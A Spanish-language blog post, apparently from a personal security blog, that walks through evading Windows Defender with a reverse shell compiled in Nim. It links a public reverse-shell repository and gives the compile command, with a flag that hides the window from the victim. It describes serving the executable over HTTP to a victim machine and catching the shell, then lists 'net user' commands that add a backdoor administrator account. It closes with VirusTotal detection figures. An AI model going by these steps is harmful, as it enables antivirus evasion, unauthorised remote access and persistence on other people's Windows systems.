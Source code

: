 ```yaml
---
layout: single
title: Bypass Windows Defender con Nim.
excerpt: "En este artículo, os muestro como es posible eludir el AV de Windows para obtener un shell inverso estable con nim."
date: 2024-04-21
classes: wide
categories:
  - Research
tags:
  - AV
  - Reverse Shell
  - Bypass
---
```


## ¿Qué es Nim?
Según el sitio web oficial de NIM, lo definen como un lenguaje de programación que tiene el poder de poder generar archivos ejecutables sin la necesidad de dependencias. Es utilizado para desarrollar aplicaciones para sistemas Winwows, BSD, Linux, etc.

## Requisitos previos.
Como es de entender, se necesita tener instalado previamente nim y mingw. Esto se puede completar mediante la comanda:

```bash
Debian: sudo apt install nim mingw-w64
Fedora, CentOS, RHEL: sudo dnf install nim mingw64-gcc
Arch Linux: sudo pacman -S nim mingw-w64-gcc
OpenSUSE: sudo zypper install nim mingw64-gcc
```
Una vez acabada con la instalación debemos de clonar un repositorio de GitHub, el cual es el encargado de hacer nuestra tarea.
```
https://github.com/Sn1r/Nim-Reverse-Shell
```
## Tutorial.
Una vez clonado, debemos de editar las variables v1 y v2, reemplanzadolas por nuestra IP y el puerto que queramos usar.

> ![imagen](https://github.com/cerodah/blog/assets/82907557/79c01442-3105-406a-bb5d-0c68c31c4aa9)

Una vez hecho, debemos de escribir este comando
```bash
nim c -d:mingw --app:gui --opt:speed -o:Prueba.exe rev_shell.nim
```
Desglosamiento:
* **c:** Indicamos al compilador que complile con c.
* **-d:mingw:** Indicamos al compilador que use MinGW como cadena de strings para compilar. Permite ejecutar código nativo de Windows en sistemas Unix y Linux.
* **-app:gui:** Mientras se ejecuta el shell inverso en la máquina víctima (siempre éticos) el proceso se crea en segundo plano y la CLI no se muestra al usuario.
* **--opt:Speed:** Optimizamos el código para agilizar la velocidad de ejecución.
  Bueno... y los otros parámetros ya se puede intuir...
  > ![imagen](https://github.com/cerodah/blog/assets/82907557/c255ed96-3723-47e1-a550-e3861268f1bc)

Activamos un servidor HTTP en nuestra máquina local para poder nosotros descargarlo desde la máquina víctima y a la vez nos ponemos en escucha por el puerto establecido anteriormente (mi caso el 1337, jejeje).

> ![imagen](https://github.com/cerodah/blog/assets/82907557/bce96b4c-5bc1-4bc8-92ca-16c9d09cc772)

El Windows Defender no me ha avisado absolutamente de nada, pero hablaremos de una cosa más adelante.
> ![imagen](https://github.com/cerodah/blog/assets/82907557/e0dd89b7-7d95-4ff3-b2d2-86dc90e7abdb)
Y finalmente entablamos una conexión con la máquina víctima :). Si da el caso en el que se nos cierra la shell debido a restricciones simplemente creamos un nuevo usuario rápidamente con privilegios de administrador y posteriormente iniciar sesión a través de RDP o SSH si estuvieran abiertos los puertos.
```bash
 net user cerodah cerodah123 /add
 net localgroup administrators cerodah /add
```

## No todo es lo que parece.
Si nuestra víctima tuviera otro AV, hay una pequeña parte que podría ser detectado. Nos podemos pasar este archivo a VirusTotal y vemos que 30 AV lo han detectado que es un 43,66%.

> ![imagen](https://github.com/cerodah/blog/assets/82907557/f3fd88b2-4d3c-4cb6-9f8f-27e92aefe5a1)

Y con esto me despido...

```bash
Happy Hacking ^^
```
